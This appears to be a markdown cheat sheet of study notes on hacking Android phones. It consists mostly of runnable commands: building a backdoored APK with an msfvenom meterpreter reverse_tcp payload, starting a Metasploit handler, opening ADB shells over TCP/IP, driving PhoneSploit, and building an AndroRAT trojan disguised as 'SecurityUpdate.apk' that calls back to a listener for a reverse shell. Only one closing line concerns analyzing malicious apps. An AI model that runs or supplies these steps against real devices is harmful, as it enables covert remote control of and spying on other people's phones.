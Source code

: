 ## Hacking Mobile Platforms

### Attack Android 
1. Reverse TCP shell using metasploit
   - Create APK
     - `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=<your IP> LPORT=4444 R > Desktop/Backdoor.apk`
   - Start metasploit
     - `msfconsole`
   - Start handler
     - `use exploit/multi/handler`
     - `set payload android/meterpreter/reverse_tcp`
     - `set LHOST <your IP>`
     - `exploit`
   - Install APK in android
   - Observe that a meterpreter session is open now
2. Android Debug Bridge (ADB)
   - Connect to an Android device over TCP/IP
     - `adb connect <ip>:5555`
   - Start shell
     - `adb shell`
3. ADB and PhoneSploit
   - Start PhoneSploit
     - `python3 phonesploit.py`
   - Connect to an Android device over TCP/IP
     - `(main_menu) >` `3`  :: Connect a new phone
     - `(connect_phone) >` `<IP of device>` :: Observe connected message
   - Start shell
     - `(main_menu) >` `4`  :: Access shell
     - `(shell_on_phone) >` `<IP of device>` :: Observe shell started
     - any linux command can be executed
   - Other options:
     - `(main_menu) >` `7`  :: Screen Shot
     - `(main_menu) >` `14`  :: List all apps
     - `(main_menu) >` `15`  :: Run an app
     - `(main_menu) >` `18`  :: Show Mac/Inet
     - `(main_menu) >` `21`  :: NetStat
4. AndroRAT
   - Create APK
     - `python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk`
   - Start listener listening from any IP
     - `python3 androRAT.py --shell -i 0.0.0.0 -p 4444`
   - Share APK and install at android device
   - Observe that a Interpreter reverse shell session is open now
     - `>` `help` :: List all available commands

### Analyze malicious app
- Sixo Online APK Analyzer: https://www.sisik.eu/apk-tool